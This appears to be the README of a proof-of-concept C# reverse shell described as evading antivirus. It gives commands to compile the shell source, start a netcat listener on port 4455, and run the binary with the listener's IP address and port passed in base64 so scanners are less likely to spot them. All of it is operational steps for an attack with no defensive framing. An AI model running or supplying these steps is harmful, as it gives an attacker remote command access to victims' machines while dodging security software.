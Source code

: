 # C# Reverse Shell AV Evasion POC
#Compile:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs

#Start the listener:
nc -nvlp 4455

#Execute the binary:
shell.exe MTkyLjE2OC41LjU= NDQ1NQ==

Base64 encoded listener IP – 192.168.5.5
Base64 encode listening port – 4455
